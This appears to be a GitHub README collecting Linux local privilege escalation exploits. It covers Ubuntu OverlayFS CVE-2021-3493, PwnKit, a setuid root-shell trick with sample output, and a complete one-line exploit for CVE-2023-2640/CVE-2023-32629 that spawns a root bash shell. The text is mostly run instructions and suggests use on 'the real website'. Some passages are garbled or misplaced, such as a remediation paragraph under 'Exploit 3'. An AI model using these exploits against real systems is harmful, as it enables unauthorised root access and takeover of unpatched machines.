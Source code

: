 # Root Kernel tools

# CVE-2021-3493
Ubuntu OverlayFS Local Privesc
Affected Versions

    Ubuntu 20.10
    Ubuntu 20.04 LTS
    Ubuntu 19.04
    Ubuntu 18.04 LTS
    Ubuntu 16.04 LTS
    Ubuntu 14.04 ESM
[Refference](https://github.com/briskets/CVE-2021-3493/tree/main)
# Usage 
- `gcc exploit.c -o exploit `
- `./exploit`

  # Exploit 2 ( Pwnkit )

- `chmod +x pwnkit`
- `./pwnkit`


# Exploit 3

## Affected systems
To remediate the vulnerability, ensure your Linux systems are running a patched kernel version.

Major Linux distributions have released dedicated security bulletins to help mitigate the vulnerability, including:

- Ubuntu
- Debian
- Amazon Linux
- Red Hat

  Firstly you need change it file user to root , for the real website u can use it if admin always change to root

- `gcc -Wall setuid.c -o setuid`
- `chmod +s setuid`

```
john@machine:~$ ./setuid
Starting root shell...
root@machine:~$ id
uid=0(root) gid=0(root) groups=0(root),1002(john)
```

# Exploit 4

### CVE-2023-2640-CVE-2023-32629

- `chmod +x exploit.sh`
- `./exploit.sh`

  or

`unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'`

[Refference](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh)
